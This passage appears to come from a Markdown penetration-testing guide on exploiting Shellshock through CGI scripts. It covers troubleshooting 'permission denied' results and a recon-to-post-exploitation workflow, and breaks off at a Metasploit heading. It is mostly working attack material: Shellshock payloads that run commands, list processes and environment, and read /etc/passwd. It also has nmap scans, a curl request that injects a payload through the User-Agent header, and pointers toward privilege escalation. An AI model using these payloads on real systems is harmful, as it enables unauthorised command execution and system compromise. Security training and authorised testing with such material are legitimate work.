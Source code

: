 ### 🔧 **Issue 4: Commands Execute But Return Permission Denied**

**🚨 Problem:** Shellshock payload works but commands return "Permission denied" errors

**🔍 Root Causes:**
- Limited user privileges (daemon/www-data user)
- SELinux or AppArmor restrictions
- File system permissions

**✅ Solutions:**
```bash
# Check current user capabilities
() { :; }; echo; echo; /bin/bash -c 'id'                    # Check user/group
() { :; }; echo; echo; /bin/bash -c 'pwd'                   # Check current directory
() { :; }; echo; echo; /bin/bash -c 'ls -la'                # Check local permissions

# Try alternative commands that don't require elevated privileges
() { :; }; echo; echo; /bin/bash -c 'cat /etc/passwd'       # Usually readable
() { :; }; echo; echo; /bin/bash -c 'ps aux'                # Process list
() { :; }; echo; echo; /bin/bash -c 'env'                   # Environment variables

# Avoid commands that typically require root privileges
# Don't use: cat /etc/shadow, cat /root/.ssh/id_rsa, etc.
```

---

## 🔗 Integration with Other Tools

### 🔄 **Primary Workflow: Reconnaissance → Shellshock → Post-Exploitation**

```bash
# Phase 1: Initial Discovery
nmap -sS -sV -sC TARGET                                     # Comprehensive scan
nmap --script http-enum TARGET                              # Web enumeration

# Phase 2: Shellshock Testing  
nmap --script http-shellshock TARGET                        # Vulnerability detection
curl -H "User-Agent: PAYLOAD" http://TARGET/script.cgi      # Manual verification

# Phase 3: Exploitation
# Use Burp Suite for systematic payload testing
# Document all successful commands and outputs

# Phase 4: Post-Exploitation (if applicable)
# Use gained access for further enumeration
# Look for privilege escalation opportunities
# Gather additional system information
```

### 🔄 **Alternative: Metasploit Integration**
